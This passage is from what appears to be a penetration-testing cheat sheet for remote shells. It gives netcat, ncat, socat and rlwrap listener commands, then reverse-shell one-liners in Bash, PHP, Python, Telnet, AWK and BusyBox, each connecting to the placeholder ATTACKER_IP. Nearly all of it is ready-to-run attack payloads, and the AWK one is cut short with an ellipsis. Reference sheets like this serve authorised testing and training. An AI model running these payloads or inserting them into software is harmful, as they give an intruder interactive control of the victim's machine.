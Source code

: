 Attacker connects with:
```bash
nc -nv TARGET_IP 8080
```

---

## Tools for Listeners

### Rlwrap
```bash
rlwrap nc -lvnp 443
```

### Ncat
```bash
ncat -lvnp 4444
ncat --ssl -lvnp 4444
```

### Socat
```bash
socat -d -d TCP-LISTEN:443 STDOUT
```

---

## Shell Payloads

### Bash
```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

### PHP
```php
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```

### Python
```bash
export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty; s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("bash")'
```

### Others
- **Telnet**
```bash
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```
- **AWK**
```bash
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42){ ... }}' /dev/null
```
- **BusyBox**
```bash
busybox nc ATTACKER_IP 443 -e sh
```

---
